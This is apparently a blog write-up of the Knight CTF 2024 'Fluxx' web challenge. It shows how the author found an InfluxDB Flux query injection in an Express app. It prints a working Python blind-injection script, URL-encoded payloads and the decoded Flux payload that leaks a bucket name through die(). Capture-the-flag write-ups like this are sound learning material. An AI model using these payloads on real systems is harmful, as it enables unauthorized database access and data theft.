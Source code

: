 ```yaml
---
layout: post
title: "InfluxDB NoSQL SQL injection | Fluxx web CTF challenge writeup | Knight CTF 2024"
author: "Colleirose"
permalink: /influxdb-injection-nosql-injection-knightctf-2024
date: 2024-01-23
---
```


This is the challenge:
<br/>
![challenge name and description](/assets/img/challenge fluxx.png)

Based on the X-Powered-By header being Express on all pages and receiving a <code>Cannot GET /(requested url)</code> on non-existent URLs (e.g. <a href="http://66.228.53.87:9001/a" rel="noopener">66.228.53.87:9001/a</a>), I can infer this is a <a href="https://expressjs.com/" rel="noopener">Express.js</a> server.
<br/>
<img src="https://cdn.discordapp.com/attachments/1194841726163095565/1198507422340358154/image.png?ex=65bf2804&is=65acb304&hm=e6100f755e6fed1f1811b7c852c048c3745f18e73d8a522bebe57997bd84b337&"/>

One of our team member finds https://book.hacktricks.xyz/pentesting-web/nosql-injection then checks finds that visiting <code>http://66.228.53.87:9001/query?data='%20||%201==1//%20%20%20%20or%20%20%20%20'%20||%201==1%00%20%20%20%20%20or%20%20%20%20admin'%20||%20'a'=='a</code> creates an erorr

I search this error online and learn that it's an error related to <a href="https://github.com/influxdata/influxdb" rel="noopener">InfluxDB</a>, which I haven't heard of until this challenge.
<br/>
<img src="https://cdn.discordapp.com/attachments/1194841726163095565/1198512198323011714/image.png?ex=65bf2c77&is=65acb777&hm=e54a3bc3373d4d041b72b951d42801b3487e256700888636c283a9552efe1ca5&"/>

This also matches up with the challenge name and description:
<br/>
![challenge name and description](/assets/img/challenge fluxx.png)

Searching about SQL injection in InfluxDB, I find <a href="https://rafa.hashnode.dev/influxdb-nosql-injection" rel="noopener">https://rafa.hashnode.dev/influxdb-nosql-injection</a>.

After facing some errors, I go back to the article I was copying this code off of and fix my code.

But this is very inefficient to do manually. I find a script on <a href="https://book.hacktricks.xyz/pentesting-web/nosql-injection#blind-nosql">book.hacktricks.xyz/pentesting-web/nosql-injection#blind-nosql</a> that can automate this. It requires a bit of changes, but here's the working script, based on the Hacktricks resource:

```py
import requests, string

alphabet = string.ascii_lowercase + string.ascii_uppercase + string.digits + "_@{}-/()!\"$%=^[]:;"

flag = ""
for i in range(21):
    print("[i] Looking for char number "+str(i+1))
    for char in alphabet:
        r = requests.get("http://66.228.53.87:9001/query?data=%22)%20%7c%3e%20yield(name%3a%20%221337%22)%20%0d%0abuckets()%20%7c%3e%20filter(fn%3a%20(r)%20%3d%3e%20r.name%20%3d~%20%2f%5e" +flag+char+".*%2f%20and%20die(msg%3ar.name))%20%0d%0a%2f%2f")
        if (r.text != "[]"):
            flag += char
            print("[+] Flag: "+flag)
            break
```

The script then crashes with some error about the connection being aborted but tells me the correct string starts with K

<img src="https://cdn.discordapp.com/attachments/1194841726163095565/1198516018990022656/image.png?ex=65bf3006&is=65acbb06&hm=6daf3321672585f519bc72aad4c5c09a548adb8a33a7433c85a85912689047bf&"/>

So I went back to Burp Suite and tried it again with the K

<img src="https://cdn.discordapp.com/attachments/1194841726163095565/1198516141547597844/image.png?ex=65bf3023&is=65acbb23&hm=a47b3cc0a025b538b9d8c4066d7df9ea0cf41b2ae9d9e7e3470105ab595f66e3&"/>

This flag is correct when submitted:

<img src="https://cdn.discordapp.com/attachments/1194841726163095565/1198516330303860746/image.png?ex=65bf3050&is=65acbb50&hm=93434d1d3de29bb8e78eac99de0a0bfe0361b1ae9965f7a7a9f2da24f7bb74e4&"/>

This is the code with the URI parameters decoded. I don't fully understand what it does because I've never used NoSQL or InfluxDB before.

```
") |> yield(name: "1337") 
buckets() |> filter(fn: (r) => r.name =~ /^K.*/ and die(msg:r.name)) 
//
```

I don't know what the first line does, but the second line calls a function to list buckets called <code>buckets()</code> and filters for buckets with a name that matches the regular expression <code>/^K.*/</code>. If it finds one, it dies with the bucket's name. The third line is a comment.

In retrospect, maybe <code>/^.*/</code> would've worked fine.

<style>
    /*
    Images are fairly large in this writeup specifically, but they aren't everywhere, so this change should be applied here only.
    
    This can't be included at the top of the code because it'll be transcluded onto the main page by the code that lists recent posts.
    */
    
    img {
        width: 50%;
        height: 50%;
    }
</style>